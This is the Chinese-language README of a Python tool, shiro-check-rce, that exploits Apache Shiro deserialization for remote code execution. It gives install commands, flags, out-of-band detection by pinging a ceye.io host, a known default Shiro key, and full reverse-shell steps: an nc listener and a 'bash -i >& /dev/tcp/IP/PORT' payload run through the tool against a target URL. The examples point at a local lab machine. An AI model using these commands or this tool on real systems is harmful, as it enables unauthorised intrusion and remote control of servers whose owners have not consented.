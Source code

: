 # 0x00 前言

最近在做shiro反序列化漏洞复现，从网上也找了一堆复现文章和工具，但是这些工具用着都不太舒服，于是参考网上大佬们的工具，自己进行了一些简单的改良。

# 0x01 工具安装

本工具需要Python3环境，下载本工具后，安装Python第三方库即可使用。

```
git clone https://github.com/teamssix/shiro-check-rce.git
cd shiro-check-rce
pip3 install -r requirements.txt
```
由于国内GitHub下载较慢，且克隆本程序所有文件共有 52M 大小，因此建议国内用户到码云上进行下载。

本项目码云地址：[https://gitee.com/teamssix/shiro-check-rce](https://gitee.com/teamssix/shiro-check-rce)

# 0x02 工具介绍

```
   _____ __    _               ________              __      ____  ____________
  / ___// /_  (_)________     / ____/ /_  ___  _____/ /__   / __ \/ ____/ ____/
  \__ \/ __ \/ / ___/ __ \   / /   / __ \/ _ \/ ___/ //_/  / /_/ / /   / __/   
 ___/ / / / / / /  / /_/ /  / /___/ / / /  __/ /__/ ,<    / _, _/ /___/ /___   
/____/_/ /_/_/_/   \____/   \____/_/ /_/\___/\___/_/|_|  /_/ |_|\____/_____/   By TeamsSix

我的个人博客：teamssix.com
我的个人公众号：TeamsSix

-c ：输入要执行的命令
-h ：查看帮助
-k : 输入自定义的key，不输入此参数时将遍历尝试默认key
-t ：输入你的ceye.io的token，用于检测shiro漏洞是否存在，此选项需要配合 -c "ping your.ceye.io" 使用
-u ：指定URL

python3 shiro-check-rce.py (-c) <command> [-h] [-k] <key> [-t] <token> (-u) <url>
```

## 1、漏洞检测

该功能需要你有一个[http://ceye.io/](http://ceye.io/)的账号，在[http://ceye.io/profile](http://ceye.io/profile)页面，找到自己的`Identifier`值和`API Token`值。

使用 -t 和 -c 参数配合使用，即可调用默认key字典进行检测.

> 文中的 http://192.168.175.146:8080/ 为本地靶机，192.168.175.152:9527 为 nc 监听地址。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6
```

![](./images/shiro-check-rce-1.png)

如果你有自己的key，也可以使用 -k 参数进行指定。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token} -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6 -k kPH+bIxk5D2deZiIxcaaaA==
```

![](./images/shiro-check-rce-2.png)

## 2、反弹shell

这里我采用bash命令反弹到本地nc监听端口的方式，因此我这里需要先在本地建立一个 nc 监听端口。

```
nc -lvvp 9527
```

之后，执行反弹shell命令

```
bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1

示例：bash -i >& /dev/tcp/192.168.175.152/9527 0>&1
```

本工具会对输入命令进行识别，如果检测到用户输入了bash反弹shell命令，将会自动对命令进行编码，无需自己编码，避免了明明存在漏洞却因为编码问题而反弹不了shell的尴尬。

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1"

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1"
```

![](./images/shiro-check-rce-3.gif)

如果知道key的话，就直接 -k 指定 key 即可

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1" -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1" -k kPH+bIxk5D2deZiIxcaaaA==
```

![](./images/shiro-check-rce-4.gif)

# 0x03 注意事项

* 1、本程序需要 python3 环境以及 java环境
* 2、在进行漏洞检测时，-c 指定 ping 的 URL 和 -t 指定的 token 需要是同一 ceye 账户的。
* 3、在安装`pycryptodome`库时，可能会碰到一些问题，可以根据报错信息进行排查，或者到网上找寻相关资料


![](https://teamssix.oss-cn-hangzhou.aliyuncs.com/TeamsSix_Subscription_Logo2.png)
